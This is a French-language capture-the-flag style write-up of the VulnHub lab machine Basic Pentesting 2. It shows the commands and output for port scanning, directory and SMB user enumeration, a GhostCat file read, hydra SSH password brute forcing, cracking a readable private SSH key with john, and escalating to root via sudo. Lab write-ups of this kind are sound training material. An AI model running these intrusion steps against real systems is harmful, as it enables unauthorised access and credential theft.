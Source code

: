 ```yaml
---
title: "Write-up | Basic Pentesting: 2"
date: 2020-07-10T16:32:18+02:00
draft: false
tags:
  - writeup
  - vulnhub

---
```


Ce write-up couvrira la machine basic_pentesting_2, dont le .ova est trouvable sur [VulnHub](https://www.vulnhub.com/).

## Reconnaissance
```
$ nmap -sV -sC 192.168.1.220 -oN scans/ports.txt
...
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ça me dit quelque chose (cf [ce write-up](https://blog.hugoblanc.com/posts/tomghost-writeup/)). :)

Je vais faire un coup de `gobuster` avant de passer à la phase d'exploitation.
```
$ gobuster dir -u 192.168.1.220 -w /usr/share/wordlists/dirb/big.txt -o scans/dirs.txt
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/development (Status: 301)
/server-status (Status: 403)
```

On a donc un directory nommé `/development`. Il contient deux ficher .txt :
* `dev.txt` :
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat to host that on this server too.
Haven't made any real web apps yet, but I have tried that example you get to show off how it works (and it's the REST version of the example!).
Oh, and right now I'm using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
* `j.txt`
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
Bon, on sait que les mots de passe dans `/etc/shadow` sont assez faibles. On sait également que les dévelopeurs utilisent Apache Struts en version 2.5.12. Une rapide recherche sur google m'amène à la [CVE-2017-9805](https://www.cvedetails.com/cve/CVE-2017-9805/). Cette version de Apache Struts a une vulnérabilité de type RCE. Cool :)

SMB tournant également sur la machine, j'utilise `enum4linux` afin de voir si je peux récupérer quelques précieuses informations : 
```
$ enum4linux 192.168.1.220
...
 ======================================================================== 
|    Users on 192.168.1.220 via RID cycling (RIDS: 500-550,1000-1050)    |
 ======================================================================== 
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2853212168-2008227510-3551253869
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
...
```
Nous avons donc les noms des utilisateurs de la machine : kay et jan.

## Exploitation

Tout d'abord, je veux essayer de voir ce que je peux faire avec la vulnérabilité de Apache Tomcat :
```
$ python3 exploit.py http://192.168.1.220:8080 8009 /WEB-INF/web.xml read
...
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```
Cette machine est donc bien vulnérable à GhostCat. L'_exploit_ utilisé est trouvable [ici](https://github.com/00theway/Ghostcat-CNVD-2020-10487/blob/master/ajpShooter.py).

Contrairement à mon write-up qui couvrait cette vulnérabilité, ici les credentials ne sont pas donnés dans le fichier `/WEB-INF/web.xml`.

Je reviendrai explorer cette piste plus tard si besoin, j'ai envie d'essayer autre chose.

Dans le fichier `j.txt`, Kay (alias K) reproche à Jan (alias J) d'avoir un mot de passe faible.
Il est donc peut-être possible de bruteforcer le mot de passe SSH de Jan avec `hydra`. 
```
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt 192.168.1.220 ssh
...
[DATA] attacking ssh://192.168.1.220:22/
[22][ssh] host: 192.168.1.220   login: jan   password: [edited]
1 of 1 target successfully completed, 1 valid password found
```

Ça a marché :)

Je peux donc me connecter en SSH en tant que jan. Même si il n'y a pas de flags à capturer dans cette box, l'objectif est de passer root.

## Élévation de privilèges

Le traditionnel `sudo-l` ne me donne aucun résultat.
```
$ sudo -l
[sudo] password for jan: 
Sorry, user jan may not run sudo on basic2.
```
J'essaie alors de voir si je peux abuser du bit SUID de certains exécutables (cf [ici](https://blog.hugoblanc.com/posts/privesc-bit-suid/)) :
```
$ find / -perm /4000 2> /dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/vim.basic
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/passwd
/bin/su
/bin/ntfs-3g
/bin/ping6
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
```
Il n'y a rien qui me parle ici...

Cependant, en cherchant un peu, on voit qu'on a accès au dossier `/home/kay/.ssh` :
```
$ ls -l /home/kay/.ssh/
total 12
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```
On peut également lire le fichier `id_rsa`, ce qui est plutôt cool ! Une fois récupéré, je le passe à `ssh2john` puis à `john` pour casser le mot de passe :
```
$ /usr/share/john/ssh2john.py id_rsa > hashssh
$ sudo john hashssh --wordlist=/usr/share/wordlists/rockyou.txt 
...
Press 'q' or Ctrl-C to abort, almost any other key for status
[edited]          (id_rsa)
...
Session completed
```
Super, on peut maintenant se connecter en SSH en tant que kay !
```
$ sudo ssh -i id_rsa kay@192.168.1.220
[sudo] Mot de passe de ezekiel: 
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)
...
```
Une fois connecté, je lis le fichier `pass.bak` dans son repertoire :
```
$ ls
pass.bak
$ cat pass.bak 
[edited]
```
Vu que nous avons son mot de passe, nous pouvons enfin faire `sudo -l` :
```
$ sudo -l
[sudo] password for kay: 
...
User kay may run the following commands on basic2:
    (ALL : ALL) ALL
```
et au vu du résultat, passer root :
```
$ sudo su
# whoami
root
```

C'est dans la poche ! :)

